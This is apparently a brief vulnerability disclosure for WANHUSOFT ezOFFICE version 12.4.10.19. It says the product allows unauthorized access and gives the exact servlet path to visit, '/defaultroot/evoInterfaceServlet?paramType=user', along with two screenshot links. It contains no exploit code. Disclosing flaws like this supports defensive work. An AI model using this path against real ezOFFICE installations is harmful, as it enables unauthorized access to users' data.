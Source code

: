 # WANHUSOFT
WANHUSOFT ezOFFICE version:12.4.10.19 is susceptible to unauthorized access.

1.a vulnerability URL.
![QQ截图20230918215723](https://github.com/1234556789lj/WANHUSOFT/assets/118456270/4d3dfe14-c6fe-4037-9e3e-d434e8693595)
2.visit path "/defaultroot/evoInterfaceServlet?paramType=user"
![222](https://github.com/1234556789lj/WANHUSOFT/assets/118456270/b4a23585-aa53-4dae-b03c-9c5c0c8f4159)


